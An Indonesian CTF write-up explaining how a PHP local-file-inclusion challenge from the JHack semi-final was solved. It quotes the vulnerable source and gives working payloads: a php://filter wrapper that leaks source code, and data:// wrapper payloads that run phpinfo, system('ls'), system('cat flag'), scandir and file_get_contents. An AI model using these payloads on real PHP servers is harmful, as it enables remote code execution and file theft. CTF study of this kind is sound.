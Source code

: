 # Write Up One Line LFI Challenge JHack Semi Final CTF

Pada saat kompetisi kita diberikan source dan penampakanya seperti ini

![](/JHackCTF/LFI/index.png)


Mari kita petakan source codenya.

```
<?php 
if(!isset($_GET['file'])){
    die(show_source(__FILE__));
}else{
    $file = $_GET['file'] .".php";
```

Pada kode tersebut, Mengecek apa ada sebuah input dengan param `file` jika tidak ada kode akan berhenti dan menampilkan isi kodenya.

```

if(strpos($file, "ftp") !== False){ die('No Cheat!');}
if(strpos($file, "http") !== False){ die('Hmmm No Cheat!');}
if(strpos($file, "https") !== False){ die('No Fucking Cheat!');}

```

Pada kode tersebut mengecek apakah inputan kita mengandung `ftp/http/https` Jika iya program akan berhenti dan mengeluarkan pesan.

```
include($file);
```

Pada kode tersebut inputan kita akan di include jika sudah lolos tiap pengecekan yang ada.


Oke secara jelas kode ini vuln ke LFI seperti judulnya, Namun pada variable $file inputan kita akan mendapat suffix `.php` jadi kita tidak bisa melakukan `../../../../../../` karena akan ketambahan `.php`. Namun saya bisa mencoba melakukan. Wrapper php filter.


`?file=php://filter/convert.base64-encode/resource=index` Woops dan success.

```
PD9waHAgCmlmKCFpc3NldCgkX0dFVFsnZmlsZSddKSl7CiAgICBkaWUoc2hvd19zb3VyY2UoX19GSUxFX18pKTsKfWVsc2V7CiAgICAkZmlsZSA9ICRfR0VUWydmaWxlJ10gLiIucGhwIjsKCgppZihzdHJwb3MoJGZpbGUsICJmdHAiKSAhPT0gRmFsc2UpeyBkaWUoJ05vIENoZWF0IScpO30KaWYoc3RycG9zKCRmaWxlLCAiaHR0cCIpICE9PSBGYWxzZSl7IGRpZSgnSG1tbSBObyBDaGVhdCEnKTt9CmlmKHN0cnBvcygkZmlsZSwgImh0dHBzIikgIT09IEZhbHNlKXsgZGllKCdObyBGdWNraW5nIENoZWF0IScpO30KCmluY2x1ZGUoJGZpbGUpOwoKfQo=
```

Wooooooo bisa, Dan saat di decode :( Tidak menemukan apa apa selain hanya source dari index tersebut. Setelah searching kita bisa mengunakan wrapper `data://` Untuk melakukan RCE? Hmm mari kita coba.


Pertama saya mengunakan payload seperti ini `data://text/plain,<?=phpinfo()?>//` Untuk menampilkan phpinfo dannnn Success.

![](/JHackCTF/LFI/go.png)

Dan kita tinggal modify payload kita menjadi seperti ini 
 - `data://text/plain,<?=system('ls')?>//` Untuk Melihat isi dir dan mendapat ada file `flag` 
 - `data://text/plain,<?=system('cat flag')?>//` Dan mendapatkan `flag`

Dam didapatkan flagnya. Namun itu jika system shellnya di enable? Namun jika tidak? Kita bisa mengexec kode php untuk mendapatkan flagnya.

 - `data://text/plain,<?=print_r(scandir(getcwd()))?>//` Ini fungsinya sama seperti `ls` kode `getcwd()` Untuk mendapatkan lokasi file tersebut.
 - `data://text/plain,<?=file_get_contents('flag')?>//` Ini sama dengan `cat`



Sekian untuk Write Up Kali ini!  